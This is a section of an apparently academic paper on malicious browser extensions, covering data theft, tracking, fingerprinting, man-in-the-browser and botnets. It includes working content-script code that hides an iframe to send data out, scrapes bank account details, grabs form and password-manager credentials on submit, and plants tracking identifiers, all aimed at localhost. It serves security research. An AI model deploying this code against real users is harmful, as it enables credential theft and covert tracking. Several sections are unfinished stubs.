In this section we focus on what harmful actions can be performed by a malicious extension. For that purpose we show attacks that can be implemented using an extension. Our focal point lies on the multi-browser extension model. We show what permissions are necessary to perform these actions. \\ 

\begin{enumerate}
	\item Steal data from the current displayed web page.
	\item Track the user between websites.
	\item Identify the website's current user. 
	\item Misuse the user's browser to launch attacks.
\end{enumerate} 

\subsection{Data Theft}	

A user operating in the Internet often arrives at situations where he transmits sensitive information to a trusted server or receives them on request. The term "sensitive" is not bound to specific information but rather describes a class of information which is important in the current context. In our context - where we are concerned with stealing information from web pages - "sensitive" describes values that are stored inside a web page and may be misused in some form by an attacker. Some examples of data valuable for an attacker are credentials, credit card numbers, addresses, social security numbers, or identity numbers. If an attacker obtains these information he will certainly harm the user and enrich himself to the detriment of the robbed user. \\

A cryptographic secured communication channel is often used when sensitive information are transmitted over the Internet. This hampers attackers who try to intercept the communication and steal the information. Therefore, web criminals seek to steal the desired information directly from the browser before any cryptography mechanism is applied. The attacker has to gain control over the user's browser to access the information stored inside a displayed web page. \\

In the following section we show that an extension is an efficient tool to steal sensitive information from displayed web pages. We implemented several content scripts that steal information from different occurrences and with different strategies. Once installed, our extension reads the displayed web pages, extracts valuable information, and sends these to an remote server. For that purpose it needs the following manifest file:

\begin{lstlisting}
{
"manifest_version": 2,
"name": "StealData",
"description": 
"Extension that steals data from the currently visible web page. 
Sends data to http://localhost:3000/log",
"version": "1.0",
"content_scripts" : [
{ 
"matches": [ "http://*/*", "https://*/*" ],
"js" : ["jquery.js", "content.js"] 
}
]
}
\end{lstlisting}

Our manifest declares besides the necessary extension information only two content scripts which are executed in every web page. The first content script \texttt{jquery.js} is an instance of the popular JavaScript library \textit{jQuery} \footnote{jQuery homepage \url{https://jquery.com/}} which we use to simplify the interaction with the web page's DOM. The second content script \texttt{content.js} is one of our own implementations that steals sensitive information.

\subsubsection{Send Data}

If we want steal data from a web page from inside the user's browser we first have to consider how to send the data to a remote server. Otherwise the data can not be labeled as "stolen". An extension is able to transfer data with a XMLHttpRequest to any host if it has proper host permissions declared. We, as an attacker, want to remain anonymous. Therefore, we do not want to reveal the remote server in the extension's manifest and hence use host permissions that match any host such as \texttt{"http://*/*", "https://*/*"} or \texttt{<all\_urls>}. The following code snippet shows how we send a message with an XHR to our remote server. \\ %TODO mention statistic about host permission usage from analyze

\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
\end{lstlisting}

First, we create a new XHR-object. Then, we open a connection to our remote server with a POST request. We set the correct content type of our request in order that our server is able to decrypt the request's parameter body. And finally, we send our message. \\

For our extensions we decided against using XMLHttpRequests with proper host permissions to transfer the data. It is possible to achieve the same using only a content script without the need for any host permissions. For that purpose, we use the mechanics of an \textit{iframe} element. Its task is to display a web page within a web page. The displayed web page is defined by the URL stored inside the iframe's \textit{src} attribute. If the URL changes, the iframe reloads the web page. The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin as the script itself. If the web page inside the iframe comes from another domain as the parent web page, the iframe's JavaScript can not access the parent web page. The same applies in reverse. In conclusion, if we manipulate the target URL of an iframe, we are able to send data to our remote server. It may look like we can not receive any data in return because the Same Origin Policy blocks our content script to access the iframe. But we are able to bypass the policy using the \textit{Window.postMessage()} method. It allows us to exchange messages between the iframe and our content script. We implemented a method \texttt{send()} that transfers our data with the described strategy: \\

\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);

function send(data) {
data += "&url=" + encodeURIComponent(window.location.href);
iframe.setAttribute('src', 'https://localhost:3001/log?' + data);
}
\end{lstlisting}

In the first three lines, we create a new iframe element, turn it invisible by setting it's \texttt{style} attribute, and append it to the web pages body element. In line 5 we define the method \texttt{send(data)} that takes a string as parameter encoded in the standard URL parameter notation \footnote{World Wide Web Consortium URL specifications:
	%TODO footnote->cite
	 \url{https://url.spec.whatwg.org/}}. For example: \texttt{username=some@mail.net\&password=Abcd1234}. Inside the method, we append the current web page's URL to the outgoing data to later identify the data's origin. And finally on line 7, we set the \texttt{src} attribute of our previously created iframe to the URL of our remote server and add the data as URL parameters. At this point it is important that the data string is encoded in the URL notation. Otherwise, the receiving server could not correctly decode the request URL. \\

%TODO postMessage

While developing this code section we discovered some important requirements for our method to work. If the web page that is targeted by the iframe is secured by the \texttt{https} scheme, an unsecured request with \texttt{http} will be blocked as security prevention. On the other hand, if the web page is unsecured, a secured request is not blocked. Therefore, we use a remote server with a secured connection. But this creates another problem. Our remote server needs a valid SSL certificate. Otherwise the browser blocks the secured request. The certificate contains information about the owner. Transmitting it to the user would reveal the attackers identity. How to get a valid SSL certificate without or with fake information is off topic for our paper. To test our implementation, we used a self signed certificate and registered it manually in the browser. \\

\subsubsection{Steal Data From A Web Page}

A web page that the user requests from a server may contain sensitive information. An extension with an active content script inside the displayed web page is able to extract these information. Finding the exact location of the targeted information inside the web page is a non-trivial procedure. The location depends on the web page's HTML structure which differentiates from page to page. Therefore, a content script is only able to target specific information in a specific web page. \\

Figure 1 shows an example of a bank web page with information about the user's accounts. We implemented a content script that targets exactly our example web page and steals the displayed information: 

\begin{lstlisting}
if(window.location.href === "https://localhost:3001/bank") {
var data = [];
$('tbody > tr').each(function(i) {
var td_elements = $(this).children('td');
data.push('account' + i + '=' + td_elements.eq(0).text());
data.push('iban'    + i + '=' + td_elements.eq(1).text());
data.push('balance' + i + '=' + td_elements.eq(2).text());
});
send(data.join('&'));
}
\end{lstlisting}

We start by comparing the current web page's URL to the URL of our targeted bank web page. We declare an array to store the extracted information. The jQuery call on line 3 selects each table row (tr) inside the table's body (tbody) and executes the anonymous function between line 3 and 7. On line 4, we select all table cells (td) inside the current row. We know exactly in which column what value is stored: In the first column is the account's name, in the second the account's IBAN, and in the third the current balance. Therefore, we extract the values inside these cells on line 5, 6, and 7. We store the values inside our array in the URL parameter notation and add the current table row's index as an identifier for account information that belong together. Finally on line 9, we connect the values inside the data array with an "\&" to comply to the URL notation and forward the extracted data to our send method. \\

As we tested our extension, our server output server received the following URL: \\
\url{https://localhost:3001/log?account0=Giro\&iban0=DE12%204122%203321%204212%207664%2098&balance0=432,03%20EUR&account1=Daily%20Alloance&iban1=DE32%202313%200429%203532%203466%2031&balance1=10.023,42%20EUR&url=https%3A%2F%2Flocalhost%3A3001%2Fbank} 
	\\
	
	And extracted following values: 
	
	\begin{tabular}{l@{\hspace{1em}:\hspace{3em}}l}
		account0 & Giro \\
		iban0 & DE12 4122 3321 4212 7664 98 \\
		balance0 & 432,03 EUR \\
		account1 & Daily Allowance \\
		iban1 & DE32 2313 0429 3532 3466 31 \\
		balance1 & 10.023,42 EUR \\
		url & https://localhost:3001/bank \\
	\end{tabular} \\
	
	As mentioned before, finding elements in the web page is non-trivial. We implemented our script to exactly match our example bank web page. Small changes on the web page's HTML source code may break our code. For example, if we add a further column to the table between \textit{Account} and \textit{IBAN} such as the date of the last transaction, our content script will no longer extract the account's balance. \\
	
	\begin{figure}[hb]
		
\includegraphics[scale=0.3]{lib/bank.png}
		\caption[Example bank web page]{The example bank web page which we used for our extension to steal sensitive information from.}		
		\lstinputlisting{lib/bank.html}
		\caption[Example bank web page as HTML]{The HTML source code of our example bank web page.}
	\end{figure}
	
	\subsubsection{Steal Data From Web Forms}
	
	Many websites request sensitive information from their users for legitimate purpose. The website provides a form embedded inside a web page in which the user enters his information and then returns it back to the website's server. A typical web-form consists of a \textit{form} element that holds several \textit{input} elements and a submit button to transmit the data. The perhaps most used type is the form that is used for authenticate a user at a website. These login form typically consist of two input fields for username and password. Figure 3 shows an example of such a login form. We implemented a content script to steal the information that the user enters into our example login web page: \\
	
	\begin{lstlisting}
	$('form').submit(function(event) {
	var username = $('input[type="text"]').val();
	var password = $('input[type="password"]').val();
	var url_encoding = "username=" + username + "&password=" + password;
	send(url_encoding);
	});
	\end{lstlisting}
	
	First, we search for all form elements and add an event to each which is triggered when the form is submitted. In our case, we find one form element which is submitted when the "Login" button is pushed. On line two, we search for input elements of type text. Our web page has only one element that matches this selector, namely the input field for the username. Similar, we locate the input element of type password on line three. We convert both values to an string in URL parameter notation and forward it to our \texttt{send()} method. \\
	
	This content script has the same flaws as the script which we have implemented to steal the information from the example bank web page. It is adapted to our example login page. Small changes on the web page's HTML source code may break our script. For example, if we add another input element of type text above the username field, our script will locate both elements, concatenate their values, and forward the result as username. We could not differentiate between the text from the new input field and the actual username. \\
	
	Writing a concrete content script for each web page is inefficient. It raises the amount of work we have to do examining the structure of every targeted web page and writing adapted scripts. We also have to identify the current web page and inject the corresponding content script. If we simply inject all scripts in every web page, it will result in a heap of unwanted data because we can not foresee which content script extracts data from the current web page. Therefore, we implemented a more general content script to steal the form's values which works with every form. Surprisingly, our script is not only more efficient because it can be used on every web page, but it is also very compact. \\
	
	\begin{lstlisting}
	$('form').submit(function(event) {
	send($(this).serialize());
	});
	\end{lstlisting}
	
	Again, we start selecting all form elements on the web page and add an submit-event to each. The jQuery library lightens our workload. It provides the function \texttt{serialize()} that returns the content of a form as URL parameters. We then forward this string to our send method. \\
	
	\begin{figure}[hp]
		\begin{minipage}{0.5\textwidth}
			
\includegraphics[scale=0.4]{lib/login.png}
			\caption[Example login web page]{Example web page with a login form.}
		\end{minipage}
		\begin{minipage}{0.55\textwidth}		
			\lstinputlisting{lib/login.html}
			\caption[Example login web page as HTML]{The HTML source code of our example login web page.}
		\end{minipage}
	\end{figure}
	
	\subsubsection{Steal Data From Password Managers}
	
	Most browsers offer their user the possibility to save entered usernames and passwords within a password manager. If the user visits a login page for which the password manager has stored credentials, it inserts them automatically. We implemented a content script that waits for the password manager to fill in possible credentials and then steals them: \\
	
	\begin{lstlisting}
	setTimeout(function() {
	var form = $('input[type="password"').closest('form');
	if(form.length > 0) {
	send(form.serialize());
	}
	}, 500);
	\end{lstlisting}
	
	We use \texttt{setTimeout} to delay the execution of our functionality for 500 milliseconds to give the password manager the time to fill in the credentials. On line 2, we search for an input element of type password and select the closest form element in the DOM tree which is the login form. With the condition on the next line, we check if a form was found and in that case we forward the URL-encoded form to our send method. \\
	
	Lujo Bauer et al. described extended attacks that open predefined login pages and steal possible credentials from the password manager \cite{extensions:cns14}. Their attacks use different strategies to hide the opened pages from the user. 
	\begin{itemize}
		\itemsep0em
		\item Open the page in a inactive tab and reload the original page after the attack was performed. 
		\item Open the page in a new tab within a window that is currently not in the foreground.
		\item Add an invisible iframe to a web page and load the targeted page in it. This strategy needs the content script option \textit{all\_frames} with which a content script executes in iframes. 
	\end{itemize}
	We implemented these strategies but none of them works in Chrome or Opera. After the password manager has filled in the user's credentials, the value in the password field is not available to JavaScript before any user interaction with the web page has happened. It first looked like a bug, but it is an intended security feature \cite{chromiumBlogPasswordInput}. 
	
	% TODO maybe implement real life extensions that read facebook chat or emails
	
	\subsection{User Tracking}
	
	User tracking refers to the linking of multiple web pages that were visited by the same user, thus allowing to follow the path a user has taken from website to website. User tracking is known to harm the user's privacy and to counter attempts to stay anonymous when browsing in the Internet. %TODO cite 
	But there are also benign reasons for user tracking, for instance improving the usability of a website based on collected information. \\ 
	
	Advertising is the main reason for user tracking. Companies pay large amounts of money to display advertisements for the purpose of increasing their sales volume. Without knowledge about the consumer's interest, a company can not advertise a particular product with success. A consumer is more likely to buy a product - what the goal of advertising is - that fits his needs. Therefore, companies want to collect information's about the consumer and his interests. Given, that more and more consumer use the Internet nowadays, companies focus on websites as advertising medium. The collection and evaluation of a website's user data gives advertising companies the chance to personalize their advertisements. They can display advertisements on websites that with a high degree of probability match the current user's needs. Because this advertising strategy increases their profit, companies pay more money to website's that provide their user data for personalized advertising. Large companies such as Google or Facebook use targeted advertising as their business model. They act as middle man between advertiser and website hosts and provide large advertising networks. Other websites may embed advertisements from those networks which frees them from investing in user tracking and hosting their own servers for advertising. In addition, small websites without a monetization strategy may use embedded advertisements to continue to offer their services for free and still avoid a financial loss. \\
	
	A reason why the displaying of advertisements may be dangerous for a user was researched by Xinyu Xing et al. analyzed Chrome extensions focused on the distribution of malware through the injection of advertisements \cite{Xing:2015:UMT:2736277.2741630}. They analyzed 18,000 extensions and detected that 56 of 292 extensions which inject advertisements also inject malware into web pages. %TODO 
	\\
	
	Another area for which user tracking is used are web analytics. User data and web traffic is measured, collected, and analyzed to improve web usage. Targeted data is primarily the user's interaction with and movement through the website such as how long a web page is visited, how the user enters and leaves the website, or with which functionality he has trouble. On the basis of these information the website's developer can improve a web page's performance and usability. If used for a vending platform, these information can also be used to coordinate for example sale campaigns. \\
	
	The tracking of a user is often accomplished by storing an identifier on the user's system the first time the user visits a tracking website. Reading out the identifier from another website allows to create a tracking profile for the user. In the following passage we describe several methods used for user tracking. \\
	
	\begin{itemize}
		\item \textbf{Tracking Cookies} The first used web technology used to track users were HTTP cookies. Shortly after the introduction of cookies, first third-party vendors were observed that used cookies to track users between different web pages. If a user visits a web page that includes a resource from the tracking third-party, a cookie is fetched together with the requested resource and acts as an identifier for the user. When the user now visits a second web page that again includes some resource from the third-party, the stored cookie is send along with the request for the third-party's resource. The third-party vendor has now successfully tracked the user between two different web pages.  
		
		\item \textbf{Local Shared Objects} Flash player use a technique similar to cookies to synchronize data between different browser sessions. The data is locally stored on the user's system by websites that use flash. Flash cookies as tracking mechanism have the advantage that they track the user behind different browsers and they can store up to 100KB whereas HTTP cookies can only store 4KB. Before 2011, local shared objects could not easily be deleted from within the browser because browser plugins hold the responsibility for their own data. In 2011 a new API\footnote{https://wiki.mozilla.org/NPAPI:ClearPrivacyData} was published that simplifies this mechanism. 
		
		\item \textbf{Evercookies} Evercookie is a JavaScript framework implemented to produce persistent identifiers in a browser that are difficult to remove \cite{evercookie}. Therefore, it uses multiple storage technologies such as HTTP and Flash cookies, HTML5 storages, web history and cache, and unusual techniques such as storing the identifier in RGB values of cached graphics. To hamper the removing from a browser, it recreates deleted identifiers as soon as the user visit a web site that uses the framework. The user has to delete every stored identifier to remove the evercookie completely. 
		
		\item \texttt{Web Beacon} A web beacon is a remote loaded object that is embedded into an HTML document usually a web page or an email. It reveals that the document was loaded. Common used beacons are small and transparent images, usually one pixel in size. If the browser fetches the image it sends a request to the image's server and also sends possible tracking cookies along. This allows websites to track their user on other sites or gives the email's sender the confirmation that his email was read. A good example is Facebook's "like" button or similar content from social media websites. Those websites are interested into what other pages their users visit. The "like" button reveals this without the need to be invoked by the user. 
	\end{itemize}
	
	Previously described methods for tracking a user identify him based on some data which was intentionally stored on the user's system. Those stored identifiers are vulnerable to deletion by the user. A study from 2010 showed that a browser reveals many browser- and computer-specific information to web pages \cite{Eckersley:2010:UYW:1881151.1881152}. These information are collected and merged to create an unique fingerprint of the currently used browser. Collection the same information on another web page and comparing them to stored fingerprints, makes it possible to track and identify the current user without the need to store an identifier on the user's computer. Theoretically, it is possible to identify every person on earth with a fingerprint in the size of approximately 33 bit. Currently eight billion people live on our planet. Using 33 bit of different information we could identify $2^{33}=8,589,934,592$ people. But the same kind of information taken from different users will probably equal. Therefore, it is necessary to collect as much information as possible to create an unique fingerprint. \\
	
	The technique of fingerprinting is an increasingly common practice nowadays which is mostly used by advertising companies and anti-fraud systems. It gives the opportunity to draw a more precise picture of a user. This is supported by the increasing use of mobile devices which provides information about the user's location. Furthermore, analyzing visited web pages and search queries give access to the user's hobbies and personal preferences. Advertising companies focus mainly on the user's personal information to display even more precisely adapted advertisements. Whereas, anti-fraud systems use the identification of the currently used devices to detect possible login tries with stolen credentials. If someone tries to log in to an account, the anti-fraud system compares the fingerprint of the currently used device with stored fingerprints for that account. If the fingerprint does not match, the user either uses a new device or someone unknown got access to the user's credentials. In this case, the web services often use further identification techniques such as personal security questions or similar. \\
	
	Fingerprinting is known to harm privacy even more than simple tracking, because many personal information are gathered and stored. People fear that everything they do on the Internet is stored and may be used to harm them. This may become reality. Many politicians discuss about a data preservation to fight terrorism and criminals. Although these ideas are ...(ehrhaft), the fear that the information are misused in some form remains.
	
	For example may a health insurance increase contributions because the insurant often books journeys to countries with a higher risk of an injection or a worker is accused to reveal company secretes because he often communicates with a friend who works for the competition and fired as a result. \\
	
	
	
	% usage of mobile devices increases => devide tracking, location tracking
	% anti-fraud, identify account access with stolen credentials, identify current user and compare to stored information connected to username
	% fingerprinting + tracking => more data, 
	% collected personal data (hobbys, preferences, health status) from visited websites, search queries
	% people fear everything they do on the Internet is stored, data preservation
	% worst case szenarios: health insurance increase contributions because insurant often bookes journeys to dangerous areas or does extreme sports, boss fires user because user often communicates with a friend that works for the competition accuses him to reveal comany secretes
	% positive szenarios: identification of terrorists, tracking of criminals
	
	There exists numerous scientific papers about fingerprinting techniques \cite{paulstone_historysniffing, MBYS11, Nikiforakis:2013:CME:2497621.2498133, Eckersley:2010:UYW:1881151.1881152, MS12, olejnik:hal-00747841}. Because detailed descriptions are off topic for our paper, we focus on a brief description of popular methods. 
	
	\begin{itemize}
		\item \textbf{Browser Fingerprinting} The browser provides a variety of specific information to a web page that can be used to generate a fingerprint of the user's browser. The following list shows examples of fingerprinting properties and how to access them using JavaScript. 
		
		\renewcommand{\arraystretch}{1.2}
		\begin{tabular}{|l|l|p{0.47\textwidth}|}
			\hline
			\textbf{Property} & \textbf{JavaScript API} & \textbf{Example Output} \\
			\hline
			System & \texttt{navigator.platform} & "Win32" \\ \hline
			Browser Name & \texttt{navigator.userAgent} & "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0" \\ \hline
			Browser Engine & \texttt{navigator.appName} & "Netscape" \\ \hline
			Screen Resolution & \texttt{screen.width} & 1366 (pixels) \\
			& \texttt{screen.height} & 768 (pixels) \\
			& \texttt{screen.pixelDepth} & 24 (byte per pixel) \\ \hline
			Timezone & \texttt{Date.getTimezoneOffset()} & -60 (equals UTC+1) \\ \hline
			Browser Language & \texttt{navigator.language} & "de" \\ \hline
			System Languages & \texttt{navigator.languages} & ["de", "en-US", "en"] \\ \hline
		\end{tabular}
		
		\item \textbf{Fonts} The list of fonts available to a web page can serve as part of a user identification. The browser plugin Flash provides an API that returns a list of fonts installed on the current system. As per current scientific works, the order of the fonts list is stable and machine-specific. %TODO cite
		If the Flash plugin is not available in a browser, JavaScript can be used to test whether particular fonts are installed or not. This approach needs a predefined list and may not cover unpopular fonts. It is implemented by writing a string with each font on the web page. If a font is not installed, the browser uses a fall-back font to draw the text. Comparing the width and hight of the drawn font to those of the fall-back font gives an evidence about the font being installed. 
		
		\item \textbf{History Sniffing} Reading out the user's web history can not only serve as fingerprinting method but also to simplify user tracking. The attacker  An outdated approach to test if a user has visited a particular web page was to use the browser's feature to display links to visited web pages in a different color. A web site would hidden from the user add a list of URLs to a web page as link elements and determinate the displayed color. Nowadays, link elements that were queried by JavaScript calls behave like unvisited links fixing the tread from this sniffing attack. A current approach detects the redrawing of link elements to determine if the underlying web page was visited before \cite{paulstone_historysniffing}. If a link is drawn the first time, it is drawn as an unvisited link and simultaneously a query to the browser's web history database is send. When the query returns that the web page behind the link was visited before, it redraws the link element. This event can be captured giving the desired evidence.
		
		\item \textbf{JavaScript Benchmark Testing} The execution speed of a JavaScript engine depends on the implementation but also on the systems processor architecture and clock
		speed. Keaton Mowery et al. implemented a set of benchmark test suits to fingerprint different execution speeds \cite{MBYS11}. Using these information, they could distinguish between major browser versions, operating systems and micro architectures. 
	\end{itemize}
	
	\subsubsection{Extension As Identifier Storage}
	
	An extension is able to store information between browser sessions. Chrome even provides a cloud based storage that is automatically synced if the user uses Chrome with his Google account. This mechanism may be used to provide an additional storage for identifiers. To receive and return the identifiers from and to a web page, we adopt the \texttt{window.postMessage()} method which allows our content script to communicate with the current web page. We implemented an extension that waits for a web page to send a  message with a new identifier and returns all currently stored identifiers. Our extension needs the \texttt{storage} permission to access the local or if we use Chrome the cloud storage and a single content script that matches \texttt{"http://*/*"} and \texttt{"https://*/*"}. The content script has the following source code: \\
	
	\begin{lstlisting}
	window.addEventListener('message', function(event) {
	if(event.data.identifier) {
	chrome.storage.sync.get('identifiers', function(result) {
	var identifiers = result.identifiers !== undefined ? result.identifiers : {};
	window.postMessage({'identifiers' : identifiers }, '*');
	identifiers[event.data.identifier] = true;
	chrome.storage.sync.set({'identifiers' : identifiers});
	});
	}
	}, false);
	\end{lstlisting}
	
	We start with adding an event listener for the \texttt{message} event. This event is triggered if the method \texttt{window.postMessage()} is called. To identify messages that are addressed to us, we check on line 2 if the \texttt{identifier} key is present in the data object of the event. If this condition is met, we will retrieve the already stored identifiers from the storage API. On line 4, we check if the list of identifiers already exists and create it if not. Then, we return the list to the web page with the postMessage method. Finally on line 6 and 7 we add the new identifier to our list and store the list. \\
	
	Because this communication channel is our own implementation we can not test it on existing web sites. Therefore, we implemented our own web page with the following JavaScript attached: \\
	
	\begin{lstlisting}
	var newIdentifier = '#{newIdentifier}';
	var oldIdentifier = '#{oldIdentifier}';
	
	window.addEventListener('message', function(event) {
	if(event.data.identifiers && event.data.identifiers[oldIdentifier] === true) {
	alert('old identifier received');
	}
	}, false);
	window.postMessage({ 'identifier' : newIdentifier }, '*');
	\end{lstlisting}
	
	This JavaScript code is taken from the template of our web page. Our server replaces \texttt{\#\{newIdentifier\}} and \texttt{\#\{oldIdentifier\}} with actual values. The purpose of this script is to store the new identifier at the user's browser and to check if the old identifier was stored at an earlier date. On line 4, we again use an event listener to react if another script calls \texttt{window.postMessage()}. We identify the call from our content script by checking that the key \texttt{identifiers} was sent along the event. On the same line, we check if the old identifier is stored inside the list of identifiers. In that case, we successfully tracked a user between two calls of our web page. Finally, we post a message ourself to propagate the new identifier to our content script. \\
	
	\subsubsection{Extension As Web Beacon}
	
	A web beacon notifies a third party that a specific web page was accessed. It fetches a resource from the server and sends possible tracking cookies along the request. We implemented an extension that embeds an invisible iframe element in every visited web page. The iframe loads an empty web page from our server along with a tracking cookie. The second time our content script is executed, the tracking cookie will be sent back to our server with the request from the iframe. The extension needs a single content script with the matching attributes \texttt{"http://*/*"} and \texttt{"https://*/*"} and no further permissions.
	
	\begin{lstlisting}
	var iframe = document.createElement('iframe');
	iframe.setAttribute('src', 'https://localhost:3001/tracking/beacon');
	iframe.setAttribute('style', 'display: none;');
	document.body.appendChild(iframe);
	\end{lstlisting}
	
	We create a new \texttt{iframe} element, set it's \texttt{src} attribute to the address of our web beacon server, set it's \texttt{style} attribute to hide if and finally append the iframe to the web page. 
	
	\subsubsection{Key Logger}
	
	JavaScript enables us to register events for every interaction the user has with the current web page. This gives us the possibility to exactly observe what elements the user clicks, double clicks, or drag and drops and what text he enters in input fields. If we combine all these information, we are able to track the user on his path through the web page. 
	
	% TODO
	
	\subsubsection{Additional Fingerprint Data From Extensions}
	
	The browser provides additional information to its extension which are not available for web pages. Those information may be used to generate a more accurate fingerprint of the user's browser and system. Accessing the information needs additional permissions. The following list shows provided information that may be retrieved for a fingerprint and the permissions needed to access them: \\
	
	\begin{tabular}{l|l|l}
		\textbf{Permission} & \textbf{Information} & \textbf{Example} \\ \hline
		system.cpu & Number of processor kernels & \\
		& Processor's name & Intel(R) Core(TM) i5-3210M CPU @ 2.50GHz \\
		& Processor's capabilities & "sse", "sse2", "sse3"  \\ 
		system.memory & Memory capacity & 6501200096 \\
		gcm & An unique ID for the extension instance & \\
		management & List of installed extensions & Extension ID and version \\
	\end{tabular} 
	
	We implemented an extension that fetches the described information and sends them to our remote server. The instruction how to use the API to get the listed information is shown on the developer's platform and we have previously shown how to send information to a remote server. \\
	
	%TODO maybe some more text
	
	\subsubsection{History Sniffing With An Extension}
	
	%TODO
	
	\subsubsection{Bypass IP Proxies}
	
	%TODO
	
	\subsection{Man In The Browser}
	
	The Man-in-the-browser (MITB) is a browser based attack related to man-in-the-middle attack (MITM) \cite{Curran:2012:MBA:2433195.2433198}. It intercepts and alters web traffic to simulate a false environment for the user where his interactions will harm himself. \\
	
	The MITM is an attack scenario in computer cryptography against a direct communication between two parties where the attacker secretly gains access to the exchanged messages. This gives him the opportunity to either steal desired information or alter the communication. If he alters the traffic in the right way, he is able to impersonate one party and deceive the other one to think the communication is still private. To gain access to the communication channel, an MITM attacker has to use vulnerabilities in obsolete cryptography algorithm or exploits in buggy implemented soft or hardware. An MITB attack on the other hand is located inside the browser from where it intercepts in and outgoing web requests. The attack will be successful irrespective of security mechanisms because it takes place before any encryption or authentication is applied. \\
	
	An MITB attacker often manipulates the code base of a browser to perform his attacks and therefore needs access to the user's machine. A simpler realization of MITB attacks can be achieved using extensions. An extension can manipulate a web page to show false information and alter outgoing web requests without knowledge of the user. It is a part of the browser itself and therefore obviates the need to manipulate the browser's code base which also decreases the probability of discovery. \\
	
	A simple MITB attack scenario using an extension: The user logs into the online platform of his bank to perform a transaction. He enters needed information into the provided form and submits it back to the bank's server. The extension reads the outgoing web request and changes the target account and rises the transfer amount. The banking system can not recognize the manipulated request, because the communication channel is highly secured and the user was successfully identified. To review and check the transaction, the banking system sends back an receipt to the user. The extension intercepts the returning web request and changes the previously manipulated data back to its original state. The user does also not recognize the manipulation at this point. To hamper such attacks, modern banking systems use an extra verification before they execute the transaction. It often consists a piece of information which comes from an external source. For example a TAN generator calculates a values from the target account number, the transfer amount and some data stored on the user's banking card. This would prevent our attack scenario, because the value which is entered by the user will not match the value calculated on the server and the extension can not access the information on the banking card to calculate the correct value itself. \\
	
	An extension %TODO..
	
	\subsection{Botnet}
	
	A botnet is a network consisting of multiple compromised clients which can be controlled remotely. They are mostly used to execute large scaled cyber attacks such as Distributed Denial of Service (DDoS) or spamming. In recent times, botnets are also used to harvest social media valuations such as Facebook's likes. The controller of such a botnet - also called bot master - sales these valuations to thousands and executes them with the social media accounts which are used on the compromised machines. With the same manner, the bot master can execute DDoS attacks to make a web service unavailable for the general public. This is achieved by overwhelming the server's capacities with requests. Either targeting the network and flooding it's bandwidth or the application itself using up all of the computer's CPU resources. A simple Denial of Service (DoS) attack calls the targeted web service numerous times a second from a single origin. If the attacker uses a botnet, he is able to perform the DoS attack from multiple devices simultaneously which results in an ever bigger overwhelm at the targeted server. \\
	
	Extensions may be used as a bots. They are hosted on many different computers and can execute web requests. 
	Extensions that act as a bot where previously researched for Internet Explorer, Firefox and Chrome \cite{liu2011botnet}.
	
	%TODO..
	
	%Browser extension can be used as bot's. They are hosted on many different computers and can execute web requests. A message channel is needed to command the bots to execute some task. One possible way is to let the extension fetch its command from a server. But this method can be tracked down to the person controlling the botnet who of course wants to remain unknown. A more stealthy way is to use an extension's automatically update service. The command can be added for example as a text file which will be parsed by the extension if a new update was installed. The extension can not only launch DDoS attacks but can also be used to spam emails. Therefor the extension can use the user's email account. If the user logs into his account the extension can either use send E-Mails itself over the 
	
	%	\textbf{Send Data} It is possible to send data to any host without corresponding host permissions. To achieve this we need an injected content script in any web page. We create a new iframe element and set its \textit{src} attribute to the URL of our target server. The iframe tries to load the web page from our target server by calling the given URL with an HTTP request. The request is not restricted by host permissions because it is an iframe's purpose to load web pages from another domain. The separation between the web page loaded in the iframe and the parent web page is secured by the same origin policy. It prevents scripts to access content which is not from the same origin as the script itself. Therefore, the content script can not access the iframe's content. In conclusion, we can send out data by modifying the source URL of an iframe but we can not receive data because we are prevented by the same origin policy to access the returned content. \\
	
